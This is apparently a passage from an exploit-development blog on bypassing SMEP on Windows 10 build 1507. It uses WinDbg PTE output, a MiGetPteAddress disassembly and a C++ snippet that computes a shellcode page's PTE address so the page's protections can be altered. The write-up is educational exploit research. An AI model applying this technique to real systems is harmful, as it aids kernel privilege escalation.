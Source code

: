 In kernel version 1507 (which we’re using), the Page Table Entry is persistent across reboots.
```WinDbg
0: kd> !pte 0000001a`9e6c0000
                                           VA 0000001a9e6c0000
PXE at FFFFF6FB7DBED000    PPE at FFFFF6FB7DA00350    PDE at FFFFF6FB4006A798    PTE at FFFFF6800D4F3600
contains 0140000129A50867  contains 015000014D651867  contains 073000012846E867  contains 22D000000DAC0867
pfn 129a50    ---DA--UWEV  pfn 14d651    ---DA--UWEV  pfn 12846e    ---DA--UWEV  pfn dac0      ---DA--UWEV

0: kd> ? 1a`9e6c0000>>9
Evaluate expression: 223294976 = 00000000`0d4f3600
```

It always be `0xFFFFF68000000000`

Still, in case it were randomized, we’d need to read the **`MiGetPteAddress`** function, which can help us programmatically (with arbitrary read/write context) get the base address and modify the page properties.
```cpp
; __int64 __fastcall MiGetPteAddress(unsigned __int64)
MiGetPteAddress proc near
shr     rcx, 9
mov     rax, 7FFFFFFFF8h
and     rcx, rax
mov     rax, 0FFFFF68000000000h
add     rax, rcx
retn
MiGetPteAddress endp
```
Its purpose is pretty clear.

But we can skip that due to what we just mentioned.

We only need the following formula:
```cpp
...
	UINT64 ShellcodePageBase = (ULONG_PTR)ShellcodeAddr >> 9;
	ShellcodePageBase &= 0x7FFFFFFFF8;
	ShellcodePageBase += 0xFFFFF68000000000;
...
```

![](imgs/blog/2SmepBypass/20250420042403.png)
